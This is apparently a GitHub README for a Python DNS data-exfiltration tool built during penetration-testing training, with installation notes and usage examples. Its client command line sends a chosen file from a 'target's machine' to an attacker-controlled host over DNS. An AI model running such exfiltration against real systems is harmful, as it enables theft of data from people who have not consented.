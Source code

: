 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, about the DNS protocol and how data exfiltration works. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:

```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "my_secret_password_used_for_intransit_data_encryption"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:

```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "the_same_secret_password_as_set_on_the_host_script" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
`python3 dns-exfil.py -h`
